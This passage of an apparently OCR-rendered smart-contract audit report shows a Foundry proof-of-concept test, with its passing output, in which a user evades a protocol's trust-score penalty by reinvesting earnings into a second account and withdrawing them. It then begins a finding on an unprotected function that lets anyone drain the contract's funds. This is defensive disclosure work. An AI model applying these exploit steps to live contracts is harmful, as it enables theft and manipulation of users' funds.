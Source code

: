 console.log(\"John's trust score before withdrawing earnings\", johnsTrustScoreBeforeWithdrawingEarnings (^) ⌋ ); // For the scenario I will clear John2ndAccount's current earnings to = 0 vm.startPrank(John2ndAccount); controller.earningWithdraw(true, earning.earningOf(John2ndAccount), payable(John2ndAccount), 1); assertTrue(earning.earningOf(John2ndAccount) == 0); // check john's earnings after many poeple invested in his pool uint256 johnTotalEarnings = earning.earningOf(John); console.log(\"John'Total Earnings\", johnTotalEarnings); // His earnings are high and he wants to withdraw // But if he does his trust score will go down // Instead he re invests to his setup second account John2ndAccount vm.startPrank(John); controller.earningReinvest(true, payable(John2ndAccount), 720 days, johnTotalEarnings, 1000, 99990000); // check john's trust score after re-investing IPoolFactory.SPool memory JohnsPoolsAfter = poolFactory.getPool(John); uint256 johnsTrustScoreAfterWithdrawingEarnings = ,→ trustScoreToken.balanceOf(JohnsPoolsAfter.dctDistributor); console.log(\"John's trust score after re-investing\", johnsTrustScoreAfterWithdrawingEarnings); // The trust score is the same !! assertTrue(johnsTrustScoreBeforeWithdrawingEarnings == johnsTrustScoreAfterWithdrawingEarnings); // check that the reinvested amount is now in John2ndAccount earnings // 99% of John's earnings will now be in John2ndAccount earnings, 1% goes to the devTeam console.log(\"John's reinvested amount\", johnTotalEarnings); uint256 John2ndAccountEarnings = earning.earningOf(John2ndAccount); console.log(\"John2ndAccount's earnings after john reinvested once\", John2ndAccountEarnings); // Then john immediately withdraws all the earnings from his second account John2ndAccount vm.startPrank(John2ndAccount); controller.earningWithdraw(true, earning.earningOf(John2ndAccount), payable(John2ndAccount), 1); // This shows how John has easily withdrawn earnings without dropping his trust score // This breaks the core protocol functionality of beign a reputation standard // The \"Trust Score\" cannot be trusted if it can be manipulated like this by bad actors } } Console Output: 


 forge test --mt test__ReInvesthenWithdrawPoC -vv [] Compiling... [] Compiling 2 files with 0.8.8 [] Solc 0.8.8 finished in 3.43s Compiler run successful! 

 Ran 1 test for test/PoCReinvesting.t.sol:Fork [PASS] test__ReInvesthenWithdrawPoC() (gas: 19311988) Logs: John's trust score before withdrawing earnings 954361232791632965478 John'Total Earnings 8481190962402927140 John's trust score after re-investing 954361232791632965478 John's reinvested amount 8481190962402927140 John2ndAccount's earnings after john reinvested once 8395582664918298800 

 Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 218.16s (215.41s CPU time) 

 Ran 1 test suite in 218.16s (218.16s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests) 

**Recommendation:** Have an upper limit on the Owner% and User% to prevent this attack. I would recommend requiring ( Owner% + User% ) < 50%. 

**Goat:** Fixed 

**3.1.13 Anyone can steal protocol's llido assets and ether balance using its distributive functions** 

_Submitted by 0xumarkhatab_ 

**Severity:** High Risk 

**Context:** _(No context files were provided by the reviewer)_ 

**Description:** Due to lack of access control on following functions, anyone can call these functions and steal the LLido reserves (which is converted to ether balance mostly) and smart contract's Ether balance. 

- Controller::claimRevenueShareDevTeam:     function claimRevenueShareDevTeam()        public     {        address account = msg.sender;        earningWithdrawDevTeam();        _devTeam.claimFor(account, address(this)); 

